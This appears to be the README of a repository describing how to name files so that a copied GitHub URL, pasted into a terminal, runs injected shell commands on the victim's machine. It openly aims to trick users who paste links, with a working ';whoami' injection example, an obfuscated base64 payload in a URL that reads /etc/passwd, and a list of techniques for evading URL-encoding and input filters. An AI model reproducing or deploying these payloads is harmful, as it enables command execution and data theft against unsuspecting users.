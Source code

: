 # latrina
bypass url encoding for nontrivial shell commands

* click on the "Go to file" button
* click on the weirdly named file
* look at the url in the address bar

Brainlets like LTT will copy the url and eventually execute the payload, since they don't know about the "raw" button.
Bypassing the rookie level will get you to this point.
Bypassing the god-like level will get you the same, but on the raw content page, which is way nastier.
Create a file called ";whoami" and follow the steps above.
When its url is pasted in the terminal, like ```wget http://localhost/;whoami```,
the payload is executed. Can we bypass the entire url encoding set and execute nontrivial commands?

# testing
use this waf and apply the url encoding patches  
https://raw.githubusercontent.com/theMiddleBlue/challenge-bypass-input-validation/main/index.php  
or try to encode the payload directly  
https://gchq.github.io/CyberChef/#recipe=URL_Encode(false)
# markdown
we can also put the link in the readme and hope someone will copy paste it in a terminal  
https://github.com/kusky3/latrina/blob/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c-<$c<(echo$c$a))  
but you still need to bypass the "<"

# bypassed
```
'"'   # needed to set string variables, bypassed with "('variable')"
'{'   # needed for "${IFS}", bypassed by concatenating "$" or "-" after them
'}'   # same as above
'|'   # needed for "command1 | command2", bypassed with "command2 < <(command1)"
' '   # needed as arguments separator, bypassed with $IFS
'<<<' # same as the "|" bypass
'>>>' # same as above
'/'   # needed for paths, bypassed by encoding the payload with base64
'&'   # needed to begin the command execution, replaced by ";"
'&&'  # same as above
```

# todo
rookie level:
```
'<'
```
should be pretty easy, we just need to find a command like base64  
that can encode text without using pipe "|" or redirect "<>"
e.g. ```fakebase -d "bG1hbwo="```, since base64 takes the argument as a file not a string

god-like level:
```
'$'
';'
```
it's not easy but it's doable, we can use two apostrophes and a redirect to start the command ''>
but then we are left without the possibilty to set variables and separate commands.

